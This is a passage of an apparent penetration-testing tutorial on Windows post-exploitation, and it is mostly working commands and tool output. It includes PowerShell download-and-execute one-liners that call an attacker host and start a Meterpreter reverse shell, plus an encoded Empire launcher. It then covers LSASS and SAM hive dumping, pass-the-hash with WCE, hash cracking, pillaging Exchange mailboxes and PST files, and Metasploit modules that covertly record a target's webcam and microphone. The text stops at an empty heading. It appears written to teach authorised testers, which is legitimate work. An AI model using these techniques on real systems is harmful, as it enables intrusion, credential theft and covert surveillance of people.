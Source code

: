 **********************************************************
Infrastructure PenTest Series : Part 4 - Post Exploitation
**********************************************************

From the previous post, we learned how to have authenticated remote shell in windows, in this post, we will have a look around of how to :ref:`Gather-Windows-Credentials` after getting a remote shell. We would also have a look how to have a :ref:`High-Impact-Post-Exploitation` which leaves an impact to the higher management for the organization. In :ref:`A1-Windows-Credentials`, We have explained the concepts about authentication, credentials and authenticators, credential storage, authentication protocols, logon types. In :ref:`A2-Cracking-Hashes`, we talk about cracking windows active directory LM:NT hashes. In :ref:`A3-Interesting-Stories` contains blog links which might be helpful doing post-exploitation.


.. _Gather-Windows-Credentials:

Gather Windows Credentials
==========================

Once we have administrative remote shell, our next task is to gather all the passwords from Security Accounts Manager (SAM) database, Local Security Authority Subsystem (LSASS) process memory. Domain Active Directory Database (domain controllers only), Credential Manager (CredMan) store or LSA Secrets in the registry and get all the passwords (clear-text or hashed). A lot of stuff has already been mentioned at `Obtaining Windows Passwords <http://netsec.ws/?p=314>`_ and `Dumping Windows Credential <https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/>`_ and Bernardo Blog Dump Windows password hashes efficiently `Part1 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes.html>`_ , `Part2 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_16.html>`_, `Part3 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_20.html>`_, `Part4 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_21.html>`_, `Part5 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_28.html>`_ and `Part6 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_29.html>`_.

We have tried to combine all the methods in one post. (A lot of stuff has also been not mentioned such fgdump, pwdump etc.). For all methods, check `Credential Dumping <https://attack.mitre.org/wiki/Technique/T1003>`_ on ATT&CK. 

So, back to credential dumping after getting a remote shell, there are multiple methods to do the following:

* Get metasploit meterpreter by using Web Delivery method and run mimikatz
* Get powershell empire agent by using powershell launcher string and run mimikatz
* Execute Windows Credential Editor (WCE)
* Dumping Local Security Authority Subsystem Service
* Dumping Registry Hives
* Dumping System/ Security/ SAM File
* Virtual Machine Snapshots and Suspended States - Vmss2core

Metasploit Web Delivery
-----------------------

`Metasploit Web Delivery <https://www.offensive-security.com/metasploit-unleashed/web-delivery/>`_ : Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine. This module has a powershell method which generates a string which is needed to be executed on remote windows machine.

::

  msf > use exploit/multi/script/web_delivery 
  msf exploit(web_delivery) > show targets 

  Exploit targets:
  
     Id  Name
     --  ----
     0   Python
     1   PHP
     2   PSH  
  
  
  msf exploit(web_delivery) > set target 2
  target => 2
  msf exploit(web_delivery) > set payload windows/x64/meterpreter/reverse_https 
  payload => windows/x64/meterpreter/reverse_https
  msf exploit(web_delivery) > set lhost 14.97.131.138
  lhost => 14.97.131.138
  msf exploit(web_delivery) > run 
  [*] Exploit running as background job.

  [*] Started HTTPS reverse handler on https://14.97.131.138:8443
  msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/uMOKs6wtlYL
  [*] Local IP: http://14.97.131.138:8080/uMOKs6wtlYL
  [*] Server started.
  [*] Run the following command on the target machine:
  powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');

When the following command (when there is no proxy)

::

  powershell.exe -nop -w hidden -c $X=new-object net.webclient;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');

or (when there is proxy)

::

  powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
 

is executed on the windows remote machine, we should get a meterpreter.

::

  Delivery web_delivery payload
  meterprerter>

Once we have got the meterpreter, we can use mimikatz or kiwi to dump all the credentials.

Powershell Empire
-----------------

`Powershell Empire agent <https://www.powershellempire.com/>`_ : Empire is a pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture. Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.

After creating a listener, we just need to create a launcher using stager:

::

 (Empire: listeners) > usestager launcher 
 (Empire: stager/launcher) > set Listener test
 (Empire: stager/launcher) > generate
 powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUAbQAuAE4ARQBUAMAA7ACQAdwBDAD0ATgBFAFcALQBPAGIASgBlAGMAVAAgAFMAeQBTAFQAZQBNAC4ATgBlAHQALgBXAEUAQgBDAGwASQBFAG4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAG*snip*4AOQA3AC4AMQAzADEALgAxADMAOAA6ADgAMAA4ADAALwBpAG4AZABlAHgALgBhAHMAcAAiACkAKQApAHwAJQB7ACQAXwAtAEIAWABPAFIAJABLAFsAJABJACsAKwAlACQASwAuAEwAZQBOAEcAdABIAF0AfQA7AEkARQBYACAAKAAkAEIALQBKAG8ASQBOACcAJwApAA==

When the above command is executed on the windows remote shell, we should be able to get a powershell agent

::

 (Empire) > [+] Initial agent 2FTFYMKDFSSFS from 192.168.42.5 now active


Sometimes the above two will fail to work, in which case, we revert to the old techniques:

Dump Lsass.exe (Local Security Authority Subsystem Service)
-----------------------------------------------------------

Procdump
^^^^^^^^

This method has been mentioned `Grabbing Passwords from Memory using Procdump and Mimikatz <https://cyberarms.wordpress.com/2015/03/16/grabbing-passwords-from-memory-using-procdump-and-mimikatz/>`_ , `How Attackers Extract Credentials (Hashes) From LSASS <https://adsecurity.org/?p=462>`_ , `Mimikatz Minidump and mimikatz via bat file <http://carnal0wnage.attackresearch.com/2013/07/mimikatz-minidump-and-mimikatz-via-bat.html>`_ , `Extracting Clear Text Passwords Using Procdump and Mimikatz  <http://c0d3xpl0it.blogspot.in/2016/04/extracting-clear-text-passwords-using-procdump-and-mimikatz.html>`_ and `I'll Get Your Credentials ... Later! <http://www.fuzzysecurity.com/tutorials/18.html>`_

* First, upload the `ProcDump.exe <https://technet.microsoft.com/en-us/sysinternals/dd996900.aspx>`_ to the remote computer by using smb, windows explorer.

* Second, from the remote shell, execute

 ::

   C:\Windows\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp     => For 32 bit system
   C:\Windows\temp\procdump.exe -accepteula -ma -64 lsass.exe lsass.dmp => For 64 bit system

* Download the lsass.dmp and use mimikatz to get the passwords.

Powershell Out-MiniDump
^^^^^^^^^^^^^^^^^^^^^^^

This method is similar to the procdump using powershell. Instead of procdump, we utilize powershell `Out-MiniDump.ps1 <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Out-Minidump.ps1>`_ from PowerSploit

* Launch PowerShell and `dot source <http://ss64.com/ps/source.html>`_ function from the Out-Minidump.ps1

 ::
   
  . c:\path\to\Out-Minidump.ps1

* Create dump of the process using this syntax:

 ::

   Get-Process lsass | Out-Minidump -DumpFilePath C:\Windows\Temp

Registry Hives
--------------

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system:

::

 C:\> reg.exe save hklm\sam c:\temp\sam.save
 C:\> reg.exe save hklm\security c:\temp\security.save
 C:\> reg.exe save hklm\system c:\temp\system.save

Get the password hashes of the local accounts, the cached domain credentials and the LSA secrets in a single run with Impacket secretsdump.py

::

 $ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
 Impacket v0.9.11-dev - Copyright 2002-2013 Core Security Technologies

 [*] Target system bootKey: 0x602e8c2947d56a95bf9cfxxxxxxxxxxx
 [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
 admsys  :500 :aad3b435b51404eeaad3b435b51404ee:3e24dcead23468ce597d68xxxxxxxxxx:::
 Guest   :501 :aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59dxxxxxxxxx:::
 support :1000:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b5xxxxxxxxx:::
 [*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
 adm2:6ec74661650377df488415415bf10321:system1.example.com:EXAMPLE:::
 Administrator:c4a850e0fee5af324a57fd2eeb8dbd24:system2.example.COM:EXAMPLE:::
 [*] Dumping LSA Secrets
 [*] $MACHINE.ACC
 $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9adxxxxxxxxxx

Windows Credential Editor (WCE)
-------------------------------

Windows Credentials Editor (WCE) is a security tool that allows to list Windows logon sessions and add, change, list and delete associated credentials (e.g.: LM/NT hashes, Kerberos tickets and cleartext passwords).

The tool allows users to:

* Perform Pass-the-Hash on Windows
* 'Steal' NTLM credentials from memory (with and without code injection)
* 'Steal' Kerberos Tickets from Windows machines
* Use the 'stolen' kerberos Tickets on other Windows or Unix machines to gain access to systems and services
* Dump cleartext passwords stored by Windows authentication packages


**Examples**

List NTLM credentials in memory
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

By default, WCE lists NTLM credentials in memory, no need to specify any options.

::

 C:\Users\test>wce.exe
 WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
 Use -h for help.
 
 theuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537 

Create a new logon session 
^^^^^^^^^^^^^^^^^^^^^^^^^^
Create a new logon session and launch a program with new NTLM credentials?

::

  wce.exe -s <username>:<domain>:<lmhash>:<nthash> -c <program>

Example:

::
 
  C:\Users\test>wce.exe -s testuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537 -c cmd.exe
 
  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.
 
  Changing NTLM credentials of new logon session (000118914h) to:
  Username: testuser
  domain: amplialabs
  LMHash: 01FC5A6BE7BC6929AAD3B435B51404EE
  NTHash: 0CB6948805F797BF2A82807973B89537
  NTLM credentials successfully changed!
 
At this point, a new cmd.exe instance will be launched and network connections using NTLM initiated from that instance will use the NTLM credentials specified. 
 
Write hashes obtained by WCE to a file?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::
 
  C:\>wce -o output.txt
  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.
 
  C:\>type output.txt
  test:AMPLIALABS:01020304050607080900010203040506:98971234567865019812734576890102
 
Dump logon cleartext passwords with WCE?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The -w switch can be used to dump logon passwords stored in cleartext by the Windows Digest Authentication package. For example:
 
::
 
  C:\>wce -w
  WCE v1.3beta (Windows Credentials Editor) - (c) 2010,2011,2012 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity com)
  Use -h for help.
  
  test\MYDOMAIN:mypass1234
  NETWORK SERVICE\WORKGROUP:test
  
`This <http://www.youtube.com/watch?v=tJ0VJVrhwTE&ap=%2526fmt%3d22>`_ video shows the use of the -w switch in a Windows 2008 Server

Useful Information
^^^^^^^^^^^^^^^^^^

* Cachedump obtains NTLM credentials from the Windows Credentials Cache (aka logon cache, logon information cache, etc). This cache can be disabled and it is very often disabled by network/domain/windows administrators (`see here <http://support.microsoft.com/kb/172931>`_ ). WCE will be able to steal credentials even when this cache is disabled.

* WCE obtains NTLM credentials from memory, which are used by the system to perform SSO; it uses a series of techniques the author of WCE developed.

* Pwdump dumps NTLM credentials from the local SAM. Let's say, a administrator remote desktop to a server (compromised by attacker and can run wce). In this case, WCE would be able get the credential of Administrator ( who RDP'd ), However, pwdump will only allow you to obtain the NTLM credentials of the local SAM

The above information has been taken from `WCE FAQ <http://www.ampliasecurity.com/research/wcefaq.html>`_

System/ Security /SAM File
--------------------------

During penetration assessment, we do find VMDK file (Virtual Machine Disk), we should be able to mound vmdk file either by using Windows Explorer, VMWare Workstation or OSFMount. After mounting, we should be able to copy 

:: 

 System32/config/SYSTEM
 System32/config/SECURITY

Passwords from these file could be extracted by using `creddump7 <https://github.com/Neohapsis/creddump7>`_ 

creddump7
^^^^^^^^^

Run cachedump.py on the SYSTEM and SECURITY hives to extract cached domain creds:

::

 # ./cachedump.py
 usage: ./cachedump.py <system hive> <security hive> <Vista/7>
 
 Example (Windows Vista/7):
 ./cachedump.py /path/to/System32/config/SYSTEM /path/to/System32/config/SECURITY true
 
 Example (Windows XP):
 ./cachedump.py /path/to/System32/SYSTEM /path/to/System32/config/SECURITY false
 
 # ./cachedump.py /mnt/win/Windows/System32/config/SYSTEM /mnt/win/Windows/System32/config/SECURITY true |tee hashes
 nharpsis:6b29dfa157face3f3d8db489aec5cc12:acme:acme.local
 god:25bd785b8ff1b7fa3a9b9e069a5e7de7:acme:acme.local

If you want to crack the hashes and have a good wordlist, John can be used. The hashes are in the 'mscash2' format:

::

 # john --format=mscash2 --wordlist=/usr/share/wordlists/rockyou.txt hashes
 Loaded 2 password hashes with 2 different salts (M$ Cache Hash 2 (DCC2) PBKDF2-HMAC-SHA-1 [128/128 SSE2 intrinsics 8x])
 g0d              (god)
 Welcome1!        (nharpsis)

The examples above are taken from creddump7 Readme

Virtual Machine Snapshots And Suspended States - Vmss2core
----------------------------------------------------------

This method has been directly taken from the Fuzzy Security Blog `I'll Get Your Credentials ... Later! <http://www.fuzzysecurity.com/tutorials/18.html>`_

After compromising a target if we discover that the box hosts Virtual Machines. We can utilize `vmss2core <https://labs.vmware.com/flings/vmss2core>`_ , we can use this tool to create a coredump of a Virtual Machine, If that machine has suspended (*.vmss) or snapshot (*.vmsn) checkpoint state files. These files can be parsed by the volatility framework to extract a hashdump.

Make sure to use the appropriate version of vmss2core, in this case I needed the 64-bit OSX version.

::

 # We are working with a suspended state so we need to combine *.vmss and *.vmem. If we were
  dealing with a snapshot we would need to combine *.vmsn and *.vmem.
	
 Avalon:Tools b33f$ ./vmss2core_mac64 -W
 /Users/b33f/Documents/VMware/VMs/Win7-Testbed/Windows\ 7.vmwarevm/Windows\ 7-e7a44fca.vmss 
 /Users/b33f/Documents/VMware/VMs/Win7-Testbed/Windows\ 7.vmwarevm/Windows\ 7-e7a44fca.vmem

 vmss2core version 3157536 Copyright (C) 1998-2013 VMware, Inc. All rights reserved.
 Win32: found DDB at PA 0x2930c28
 Win32: MmPfnDatabase=0x82970700
 Win32: PsLoadedModuleList=0x82950850
 Win32: PsActiveProcessHead=0x82948f18
 Win32: KiBugcheckData=0x82968a40
 Win32: KernBase=0x82806000

 Win32: NtBuildLab=0x82850fa8
 Win: ntBuildLab=7601.17514.x86fre.win7sp1_rtm.101119-1850  # Win7 SP1 x86
 CoreDumpScanWin32: MinorVersion set to 7601
 ... 10 MBs written.
 ... 20 MBs written.
 ... 30 MBs written.
 ... 40 MBs written.
 ... 50 MBs written.
 
 [...Snip...] 
 
 Finished writing core.

After transferring the coredump back out we can let volatility do it's magic. We need to determine which OS the dump comes from for volatility to parse it correctly.

:: 

 # We can see that volatility is unable to accurately determine the OS profile, however from the vmss2core
   output above we can see that the correct profile is "Win7SP1x86". 
 	
 root@Josjikawa:~/Tools/volatility# ./vol.py imageinfo -f ../../Desktop/memory.dmp 
 
 Determining profile based on KDBG search...
 
           Suggested Profile(s) : Win7SP0x86, Win7SP1x86 (Instantiated with WinXPSP2x86)
                      AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                      AS Layer2 : WindowsCrashDumpSpace32 (Unnamed AS)
                      AS Layer3 : FileAddressSpace (/root/Desktop/memory.dmp)
                       PAE type : PAE
                            DTB : 0x185000L
              KUSER_SHARED_DATA : 0xffdf0000L
            Image date and time : 2014-09-13 19:15:04 UTC+0000
      Image local date and time : 2014-09-13 21:15:04 +0200

Using the "hivelist" plugin we can now get the memory offsets for the various registry hives.

:: 

 root@Josjikawa:~/Tools/volatility# ./vol.py hivelist -f ../../Desktop/memory.dmp --profile=Win7SP1x86

 Volatility Foundation Volatility Framework 2.4
 
 Virtual    Physical   Name
 ---------- ---------- ----
 0x988349c8 0x3945a9c8 \??\C:\Users\Fubar\AppData\Local\Microsoft\Windows\UsrClass.dat
 0x87a0c008 0x27f9f008 [no name]
 0x87a1c008 0x280ed008 \REGISTRY\MACHINE\SYSTEM                # SYSTEM
 0x87a3a6b0 0x27d4b6b0 \REGISTRY\MACHINE\HARDWARE
 0x87abe5c0 0x2802a5c0 \SystemRoot\System32\Config\DEFAULT
 0x880b5008 0x231b7008 \SystemRoot\System32\Config\SECURITY
 0x88164518 0x231cc518 \SystemRoot\System32\Config\SAM         # SAM
 0x8bd019c8 0x24aec9c8 \Device\HarddiskVolume1\Boot\BCD
 0x8bdd2008 0x24772008 \SystemRoot\System32\Config\SOFTWARE
 0x8f5549c8 0x1f39e9c8 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
 0x90e83008 0x1f09f008 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
 0x955a9450 0x15468450 \??\C:\System Volume Information\Syscache.hve
 0x988069c8 0x3aa329c8 \??\C:\Users\Fubar\ntuser.dat


All that remains now is to dump the hashes. To do this we need to pass volatility's "hashdump" module the virtual memory offsets to the SYSTEM and SAM hives, which we have.

::

 root@Josjikawa:~/Tools/volatility# ./vol.py hashdump -f ../../Desktop/memory.dmp --profile=Win7SP1x86
 sys-offset=0x87a1c008 sam-offset=0x88164518
 
 Volatility Foundation Volatility Framework 2.4 
 
 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
 user1:1003:aad3b435b51404eeaad3b435b51404ee:7d65996108fccae892d38134a2310a4e:::

These Virtual Machine coredumps can be very large (1 GB+). If transferring them over the network is not an option you can always drop a copy of volatility on the target machine. Starting from version 2.4, volatility has binary packages for Windows, Linux and OSX.

::
 
 # Binary package on OSX 10.9.4

 Avalon:Volatility-2.4 b33f$ ./volatility_2.4_x64 hashdump -f ../memory.dmp --profile=Win7SP1x86
 sys-offset=0x87a1c008 sam-offset=0x88164518 
 
 Volatility Foundation Volatility Framework 2.4
 
 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
 user1:1003:aad3b435b51404eeaad3b435b51404ee:7d65996108fccae892d38134a2310a4e:::

.. _High-Impact-Post-Exploitation:

High Impact Exploitation
========================

This section mainly focuses on the Post-exploitation which can be show to the higher management for impact or showing risk such as reading emails ( either by reading .pst files or having access to the exchange server ), having access to the File-servers holding confidential data, able to access employees laptop/ desktop ( watch them via webcam/ listen to the surroundings using microphones). The assumption is we have already compromised the domain administrator of the Windows Domain.

Outlook data file .pst
----------------------

A Personal Folders file (.pst) is an Outlook data file that stores your messages and other items on your computer. 

readpst ( linux ) or `readpst.exe <https://github.com/srnsw/xena/tree/master/xena/dist/winx86>`_ can be used to read pst mailbox for passwords

::

 ReadPST / LibPST v0.6.59
 Little Endian implementation being used.
 Usage: readpst [OPTIONS] {PST FILENAME}
 OPTIONS:
	-V	- Version. Display program version
	-D	- Include deleted items in output
	-M	- Write emails in the MH (rfc822) format
	-S	- Separate. Write emails in the separate format
	-e	- As with -M, but include extensions on output files
	-h	- Help. This screen
	-o <dirname>	- Output directory to write files to. CWD is changed *after* opening pst file
	-q	- Quiet. Only print error messages
	-r	- Recursive. Output in a recursive format
	-t[eajc]	- Set the output type list. e = email, a = attachment, j = journal, c = contact
	-w	- Overwrite any output mbox files

Only one of -M -S -e -k -m -r should be specified

Once readpst has converted the contents of the .pst file to plaintext documents, we can search through them using the built-in “findstr” command.

::

 findstr /s /i /m “password” *.*

 “/s” tells findstr to search through the current directory and subdirectories.
 “/i” specifies that the search should be case insensitive.
 “/m” tells findstr to output the file name rather than the file contents – if we output the contents, we may quickly be swamped with output that we’ll still have to sift through.  Depending on the amount of output, you may also quickly exceed cmd.exe’s limits.
 *.*, of course, means that we’re searching through files of any name and any type.

The above has been taken from the `Pillaging .pst Files <https://warroom.securestate.com/pillaging-pst-files/>`_ 

Pillage Exchange
----------------

This is applicable in a Microsoft environment that uses Outlook but does not back up email to .pst files.

The assumption is that we have already compromised the Exchange Administrator account on the Exchange server.  We’ll use two techniques to search through mailboxes of interest.  The first is to give ourselves full access to the targeted user’s mailbox; the second is to use built-in management features to search through a mailbox of our choosing.

Full access to the targeted user’s mailbox
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Step 1: Add a Mailbox - Create a new mailbox by using web-based Exchange Admin Center (EAC). The “mailboxes” section allows us to add a new user mailbox.  The user receiving the mailbox can come from the list of Active Directory users, or the Administrator can create a new user.

* Step 2: Mailbox Delegation - Once our new user’s mailbox is created, we can give ourselves full access to our target user mailbox. This can be done by using targeted user mailbox account options. Go to the account settings of targeted user mailbox, select the edit option, select “mailbox delegation,” and add our new user to the “Full Access” section. Once that’s complete, we can log in to our recently created mailbox with the username and password we set, then open another mailbox without being required to enter any credentials

However, when we interact with their mailbox, it’s as if they are doing it, so emails previously marked as unread will be marked as read after being opened.

Search-Mailbox cmdlet
^^^^^^^^^^^^^^^^^^^^^

* If we have access to the exchange server and Exchange Management Tools are installed on a machine, they include the Exchange Management Shell, which is a version of Powershell with specific features for administering exchange.  “Search-Mailbox,” allow us to make specific search queries on mailboxes of interest without manually giving ourselves full-access and logging in.

* However, Search-Mailbox belongs to administrators with the “Discovery Management” role.  We have to add the compromised account to the members of this role by visiting EAC and going to “permissions,” “admin roles” and editing the “Discovery Management” to add the account we compromised.

* Search-Mailbox Syntax

 ::

   Search-Mailbox -Identity “First Last” -SearchQuery “String” -TargetMailbox “DiscoveryMailbox” -TargetFolder “Folder” -LogLevel Full
   
   Identity is the Active Directory username
   SearchQuery is the string of text we’re looking for, 
   TargetMailbox is the mailbox where emails containing that string will be sent (hence the need to control a mailbox), 
   TargetFolder is the folder in that mailbox where they’ll go

Example:

::

  Search-Mailbox -Identity “Targeted User” -SearchQuery “Password” -TargetMailbox “NewMailboxCreated” -TargetFolder “Inbox” -LogLevel Full

Now we simply pop back over to the mailbox of the user we created and inspect the newly arrived email(s):

The above has been taken from `Pillage Exchange <https://warroom.securestate.com/pillage-exchange/>`_

File Servers
------------

We can get a list of file servers in the windows active directory by using Powersploit-Powerview-Get-NetFileServer funtion. Once we have the file server list, we can view the file server contents utilizing Windows explorer. We can also mount the file server using mount.cifs

::

 mount.cifs //{ip address}/{dir} /mnt/mountdirectory --verbose -o "username=foo,password=bar,domain=domainname,ro"

Active Directory Database Credentials
-------------------------------------

Sean Metcalf has written a brilliant blog `How Attackers Dump Active Directory Database Credentials <https://adsecurity.org/?p=2398>`_ 

The above blog covers:

* Grabbing the ntds.dit file locally on the DC using NTDSUtil’s Create IFM
* Pulling the ntds.dit remotely using VSS shadow copy
* Pulling the ntds.dit remotely using PowerSploit’s Invoke-NinjaCopy (requires PowerShell remoting is enabled on target DC).
* Dumping Active Directory credentials locally using Mimikatz (on the DC).
* Dumping Active Directory credentials locally using Invoke-Mimikatz (on the DC).
* Dumping Active Directory credentials remotely using Invoke-Mimikatz.
* Dumping Active Directory credentials remotely using Mimikatz’s DCSync.

The methods covered above require elevated rights since they involve connecting to the Domain Controller to dump credentials.

The statement "We do have all the users password hashes of your organization and X number of passwords were cracked in X number of days" make a good impact for your client.

C-Level Executive - Webcam, Microphone, User Activity Recording
---------------------------------------------------------------

Metasploit provide a post exploitation module for taking snapshots from webcam and recording sounds from microphone. Imagine, the impact of informing the client that we can view a person live-feed or record sounds from a meeting room without being present in the same room. Maybe in the meeting there were discussing about passwords, company secrets, operations, future plannings, spendings, etc.

Webcam
^^^^^^

This module will allow the user to detect installed webcams (with the LIST action) or take a snapshot (with the SNAPSHOT) action.

::

  msf > use post/windows/manage/webcam
  msf post(webcam) > info 

  Name: Windows Manage Webcam
  Module: post/windows/manage/webcam

  Available actions:
  Name      Description
  ----      -----------
  LIST      Show a list of webcams
  SNAPSHOT  Take a snapshot with the webcam

  Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  INDEX    1                no        The index of the webcam to use
  QUALITY  50               no        The JPEG image quality
  SESSION                   yes       The session to run this module on.

Record_Mic
^^^^^^^^^^

This module will enable and record your target's microphone.

::

   msf post(webcam) > use post/multi/manage/record_mic
   msf post(record_mic) > info 

   Name: Multi Manage Record Microphone
   Module: post/multi/manage/record_mic

   Basic options:
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DURATION  5                no        Number of seconds to record
   SESSION                    yes       The session to run this module on.

Sinn3r has written a blog `The forgotten spying feature: Metasploit's Mic Recording Command <https://community.rapid7.com/community/metasploit/blog/2013/01/23/the-forgotten-spying-feature-metasploits-mic-recording-command>`_ which can provide more information. Once, we have recorded the meetings, the sound WAV files can be converted to text using speech to text api.

User Activity
^^^^^^^^^^^^^

